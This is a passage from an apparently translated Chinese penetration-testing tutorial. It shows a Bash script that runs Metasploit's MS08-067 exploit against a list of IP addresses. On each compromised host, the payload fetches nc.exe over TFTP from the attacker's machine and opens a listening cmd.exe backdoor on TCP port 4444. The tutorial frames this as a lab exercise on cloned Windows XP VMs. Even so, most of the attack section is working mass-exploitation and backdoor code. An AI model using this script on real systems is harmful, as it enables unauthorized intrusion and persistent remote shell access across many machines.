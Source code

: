 本教程将演示如何使用 Bash 脚本在多个系统上利用单一漏洞，并在每个系统上打开一个后门。后门的实现方法是在目标系统上准备一个 Netcat 可执行文件，并开启一个监听服务，接收到连接时执行`cmd.exe`。

# 准备工作

要使用本教程中演示的脚本，你需要访问多个系统，这些系统都有相同的漏洞，可以通过 Metasploit 进行利用。在提供的示例中，复制了一台运行有 Windows XP 漏洞版本的虚拟机，生成了三个 MS08-067 漏洞实例。有关如何设置 Windows 系统的更多信息，请参考 第一章中 *安装 Windows Server* 的食谱 *入门* 部分。此外，本部分还需要使用文本编辑器（如 Vim 或 GNU nano）编写脚本并保存到文件系统中。有关编写脚本的更多信息，请参考 第一章中 *使用文本编辑器（Vim 和 Nano）* 的食谱 *入门* 部分。

# 如何操作…

以下示例展示了如何使用 Bash 脚本同时利用单一漏洞的多个实例。这个脚本特别适用于利用 MS08-067 NetAPI 漏洞的多个实例，方法是引用包含 IP 地址列表的输入：

```
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file>"; exit; fi

iplist=$1

i=4444
for ip in $(cat $iplist)
do
  gnome-terminal -x msfconsole -x 
  "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/exec;
   set RHOST $ip; set CMD cmd.exe /c tftp -i 172.16.69.133 GET nc.exe
   && nc.exe -lvp 4444 -e cmd.exe; run"
   echo "Exploiting $ip and creating backdoor on TCP port 4444"
i=$(($i+1))
done

```

1.  这个脚本与前面提到的脚本有所不同，因为这个脚本会在每个目标系统上安装后门。在每个被利用的系统上，会执行一个有效载荷，利用集成的**简易文件传输协议**（**TFTP**）客户端抓取 Netcat 可执行文件，并使用它打开一个监听的 `cmd.exe` 终端服务，监听 TCP 端口 `4444`。

1.  为了使其正常工作，需要在 Kali 系统上运行 TFTP 服务。可以通过执行以下命令来实现：

![](img/00483.jpeg)

1.  第一个命令启动 TFTP 服务，使用 UDP 端口 `69` 并将服务目录设置为 `/tmp`。第二个命令用于将 Netcat 可执行文件从 `Windows binaries` 文件夹复制到 TFTP 目录。

1.  现在，我们执行 `./multipwn.sh` Bash 脚本：

![](img/00549.jpeg)
